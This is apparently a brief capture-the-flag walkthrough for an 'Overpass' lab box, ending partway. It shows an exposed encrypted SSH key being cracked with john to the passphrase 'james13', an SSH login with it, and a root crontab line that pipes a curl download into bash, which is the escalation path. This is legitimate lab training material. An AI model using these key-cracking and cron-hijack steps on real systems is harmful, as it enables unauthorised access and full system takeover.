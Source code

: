 # Fairy easy to get the encrypted private key here
/admin/

# Crack it with john
```
$/usr/share/john/ssh2john.py encryptedKey > hash
john --format=ssh hash
```

# Now we get the password for using the key
james13

# Give chmod +x try login
ssh -i encryptedKey james@$ip

# wow, complain the permission too open
chmod 600 encryptedKey

# Login success
### cron is your friend `cat /etc/crontab`
```
root curl overpass.thm/downloads/src/buildscript.sh | bash
```
